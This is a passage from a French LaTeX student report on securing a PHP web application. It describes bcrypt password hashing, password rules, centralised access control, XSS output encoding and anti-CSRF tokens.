    Nous avons amélioré l'authentification du site avec l'algorithme de hachage \verb|b_crypt|. Lors de la création d'un compte, le mot de passe sera haché au moment de la vérification de la validité de celui-ci. Ensuite, quand cet utilisateur souhaitera s'authentifier, le mot de passe entré sera haché à nouveau, puis les deux seront comparés.
    \addcontentsline{toc}{subsubsection}{B-Crypt}
    \subsubsection*{B-Crypt}
    Nous avons séléctionné cet algorithme pour la bonne raison qu'il est lent. Lors d'une attaque de brute-force, il faudra donc plus de temps pour essayer plusieurs combinaisons. De plus, il s'agit de l'algorithme recommandé par PHP.
    \addcontentsline{toc}{subsubsection}{Validité d'un mot de passe}
    \subsubsection*{Validité d'un mot de passe}
    Un mot de passe doit respecter les conditions suivantes: 
    \begin{onehalfspacing}
        \begin{itemize}
        \item Doit avoir un minimum de 8 charactères
        \item Doit avoir au moins un nombre
        \item Doit avoir au moins une majuscule
        \item Doit avoir au moins une minuscule
        \item Doit avoir au moins un charactère spécial \verb|(#?!@$%^&*-)| \\
        \end{itemize}
        \end{onehalfspacing}
        Cette combinaison est suffisante pour avoir une authentification à unique facteur.
        \addcontentsline{toc}{subsection}{Autorisation}
    \subsection*{Autorisation}
    Afin de valider au mieux les autorisations pour les différentes ressource disponible sur le site, nous avons centralisé les fonctions d'accès dans une unique classe, afin de gérer d'un seul côté tous les accès. Il suffit avec ce genre de méthodologie d'appeler les différentes fonctions d'accès sur chacune des pages, de la manière suivantes : 
                        \begin{lstlisting}[language=php]
include_once "classes/AccessControl.php"; //ajout de la classe qui gere les autorisations
AccessControl::connectionVerification("index.php?error=401"); //verification de l'authentification
AccessControl::adminVerification("messagerie.php?error=403"); //verification de l'autorisation
\end{lstlisting} 
    Il est donc facile de vérifier sur le début de chaque fichier que tout est bien mis en place. \\

    De plus, nous avons ajouté dans \verb|messagerie.php| et dans \verb|detailsMessage.php| des conditions supplémentaire évitant un utilisateur malveillant de voir ou supprimer des message destiné à quelqu'un d'autre.
    \addcontentsline{toc}{subsection}{Injection de script (XSS)}
    \subsection*{Injection de script (XSS)}
    Afin d'éviter qu'un utilisateur puisse injecter un script malveillant, il a fallu mettre en place une protection. Cette protection est très simple à implémenter, et il suffit d'encoder à l'affichage tout ce qui pourrait venir d'un utilisateur. Afin de faire cela, nous avons simplement appelé la méthode \verb|htmlspecialchars()| qui va convertir les caractères qui permettent un script malveillant d'être exécuté. 
                        \begin{lstlisting}[language=php]
return htmlspecialchars($content, ENT_QUOTES, "UTF-8");
\end{lstlisting} 
Ceci va effectuer les remplacements de caractères comme ci-dessous, afin qu'ils ne soient plus interprété comme du code exécutable. 
    
\begin{center}
\begin{tabular}{|c c|} 
 \hline
 Caractère & Remplacement \\ [0.5ex] 
 \hline\hline
 \verb|&| (ET commercial) & \verb|&amp;|\\
 \hline
 \verb|"| (double guillement) & \verb|&quot;| \\
 \hline
 \verb|'| (simple guillemet) & \verb|&#039;| \\
 \hline
 \verb|<| (inférieur à) & \verb|&lt;|  \\
 \hline
 \verb|>| (supérieur à) & \verb|&gt;| \\
  \hline
\end{tabular}
\end{center} \\

Nous n'avons pas modifié les entrées utilisateurs pour deux raisons : 
 \begin{onehalfspacing}
        \begin{itemize}
        \item La première est qu'en cas de modification dans la source de donnée, cette protection ne servirait à rien
        \item La deuxième est que cela modifierait les données entrées pas l'utilisateur. Exemple : si un utilisateur crée un mot de passe avec le caractère \verb|>|, alors celui-ci ne doit pas être changé en \verb|&gt;|. Cela ne changerait rien à l'utilisateur, mais pourrait être contre productif en cas d'analyse des données, ou autres. \\
        \end{itemize}
        \end{onehalfspacing}
\addcontentsline{toc}{subsection}{CSRF}
    \subsection*{CSRF}
    Afin d'empêcher ce genre d'attaque pour forcer une action à un utilisateur, la solution qui a été mise en place a été l'utilisation d'un token anti-CSRF. \\

La solution définie est que lors de chaque visite d'une page contenant un formulaire, un token CSRF sera géré du côté du serveur, envoyée au client, puis pour finir inclus et caché dans le formulaire que l'utilisateur peut envoyer. Si cet utilisateur envoie ce formulaire, alors le token sera lui-même inclus et sera vérifié lors de la vérification des données reçues par le serveur. \\

Le token est généré lors de chaque visite sur un formulaire, afin que lors de chaque envoie de formulaire, afin que le token précédent ne soit plus valide.
\addcontentsline{toc}{section}{Conclusion}
\section*{Conclusion}
Pour conclure, ce rapport a permis premièrement de faire une analyse de ce qui existait déjà et d'identifier les menaces potentielles du système actuel. Nous avons par la suite établi quelques scénarios d'attaque possibles et finalement nous avons décrit les contre-mesures effectuées afin de sécuriser l'application. \\

Pour les contre-mesures, il aurait été possible d'en implémenter davantages, comme par exemple ajouter SSL/TLS à l'application. Nous avons ajouté les sécurités qui nous paraissaient les plus efficaces afin d'avoir une base solide au niveau sécuritaire.

\end{document}
